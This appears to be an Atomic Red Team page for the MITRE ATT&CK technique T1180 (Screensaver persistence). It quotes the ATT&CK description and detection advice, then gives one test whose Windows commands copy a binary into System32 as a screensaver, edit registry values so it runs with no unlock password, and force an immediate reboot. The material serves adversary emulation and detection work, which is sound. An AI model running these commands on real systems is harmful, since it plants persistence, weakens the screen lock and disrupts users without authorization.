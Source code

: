 # T1180 - Screensaver
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1180)
<blockquote>Screensavers are programs that execute after a configurable time of user inactivity and consist of Portable Executable (PE) files with a .scr file extension. (Citation: Wikipedia Screensaver) The Windows screensaver application scrnsave.exe is located in <code>C:\Windows\System32\</code> along with screensavers included with base Windows installations. The following screensaver settings are stored in the Registry (<code>HKCU\Control Panel\Desktop\</code>) and could be manipulated to achieve persistence:

*<code>SCRNSAVE.exe</code> - set to malicious PE path
*<code>ScreenSaveActive</code> - set to '1' to enable the screensaver
*<code>ScreenSaverIsSecure</code> - set to '0' to not require a password to unlock
*<code>ScreenSaverTimeout</code> - sets user inactivity timeout before screensaver is executed

Adversaries can use screensaver settings to maintain persistence by setting the screensaver to run malware after a certain timeframe of user inactivity. (Citation: ESET Gazer Aug 2017)

Detection: Monitor process execution and command-line parameters of .scr files. Monitor changes to screensaver configuration changes in the Registry that may not correlate with typical user behavior.

Tools such as Sysinternals Autoruns can be used to detect changes to the screensaver binary path in the Registry. Suspicious paths and PE files may indicate outliers among legitimate screensavers in a network and should be investigated.

Platforms: Windows

Data Sources: Process Monitoring, Process command-line parameters, Windows Registry, File monitoring

Permissions Required: User

Contributors: Bartosz Jerzman</blockquote>

## Atomic Tests

- [Atomic Test #1 - Set Arbitrary Binary as Screensaver](#atomic-test-1---set-arbitrary-binary-as-screensaver)


<br/>

## Atomic Test #1 - Set Arbitrary Binary as Screensaver
This test copies a binary into the Windows System32 folder and sets it as the screensaver so it will execute for persistence. Requires a reboot and logon.

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| input_binary | Executable binary to use in place of screensaver for persistence | path | C:\Windows\System32\cmd.exe|

#### Run it with `command_prompt`!
```
copy #{input_binary} "%SystemRoot%\System32\evilscreensaver.scr"
reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaveActive /t REG_SZ /d 1 /f
reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaverTimeout /t REG_SZ /d 60 /f
reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaverIsSecure /t REG_SZ /d 0 /f
reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v SCRNSAVE.EXE /t REG_SZ /d "%SystemRoot%\System32\evilscreensaver.scr" /f
shutdown /r /t 0
```
<br/>
